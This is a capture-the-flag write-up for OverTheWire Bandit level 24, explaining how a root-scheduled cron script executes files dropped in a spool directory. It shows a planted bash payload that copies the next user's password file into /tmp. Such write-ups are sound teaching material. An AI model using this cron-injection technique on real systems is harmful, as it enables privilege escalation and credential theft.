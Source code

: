 ![](../../../assets/Pasted%20image%2020250807143515.png)

### Challenge Description

>In this level, I had to find out what a scheduled cronjob was running, who ran it, and how to use it. The challenge was to understand cron and write a custom shell script that the system would execute with higher privileges. Since the script gets deleted right after running, timing was everything.
>
 This was my first real taste of cron-based privilege escalation and how tiny misconfigurations can be a hacker’s playground.

**Goal:** Find the password for user `bandit24`.

---

### Step-by-Step Solution


---


#### 🟦 Step 1: Look for Cronjob Configurations

List the cron configuration files:

```bash
cd /etc/cron.d/
ls
```

You’ll see a file named:

```
cronjob_bandit24
```

Check what’s inside:

```bash
cat cronjob_bandit24
```

Output:

```bash
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

This means that every minute, the script `/usr/bin/cronjob_bandit24.sh` is executed by the user `bandit24`.

---

#### 🟦 Step 2: Read and Understand the Cron Script

View the script:

```bash
cat /usr/bin/cronjob_bandit24.sh
```

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

**What this script does:**

- Changes into `/var/spool/bandit24/foo`
    
- Loops through all files (including hidden ones)
    
- If a file is owned by `bandit23`, it executes it (with a timeout of 60s)
    
- Then deletes it
    

---

#### 🟦 Step 3: Create Your Payload Script


![](../../../assets/Pasted%20image%2020250807150023.png)

We need to drop a script that will get executed by `bandit24` and reveal its password.

Create the script:

```bash
echo '#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit24_password_bandit23' > /tmp/my_script.sh
```

Make it executable:

```bash
chmod +x /tmp/my_script.sh
```

---

#### 🟦 Step 4: Move the Script to Target Directory

Place it where the cronjob will look for it:

```bash
mv /tmp/my_script.sh /var/spool/bandit24/foo/
```

Try listing the directory (optional):

```bash
cd /var/spool/bandit24/foo/
ls
```

Expected output:

```
ls: cannot open directory '.': Permission denied
```

That’s fine — it just means the directory is protected, but the file is still there.

---

#### 🟦 Step 5: Wait and Grab the Password

After about 1 minute, check the file where you told your script to drop the password:

```bash
cat /tmp/bandit24_password_bandit23
```

Output:

```
Redacted ######################
```

You’ve got the password for `bandit24`.

---

### ✅ Final Thoughts

This challenge is the first major step toward **real-world privilege escalation**:

- You identify a scheduled task running as a higher-privileged user
    
- You inject code (your script) that gets executed by the system
    
- You retrieve data or escalate privileges using this vector
    

You also get to:

- Write your first functional **bash script**
    
- Understand how **cron jobs** can introduce vulnerabilities if not handled carefully
    
- Work with **permissions, file ownership**, and **script execution**
    

If you mastered this — take a moment to celebrate — you’ve done something most beginner hackers haven’t yet!

---

### 📚 Further Resources

If you want to go deeper into cron-based privilege escalation and Linux scripting, check these out:

- [GTFOBins - Cron](https://gtfobins.github.io/gtfobins/cron/)
    
- [HackTricks: Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#cron-jobs)
    
- [OverTheWire Bandit Levels](https://overthewire.org/wargames/bandit/)
    
- [Crontab.guru (cron time expression helper)](https://crontab.guru/)
    
- [Bash scripting cheat sheet](https://devhints.io/bash)
    

---
















 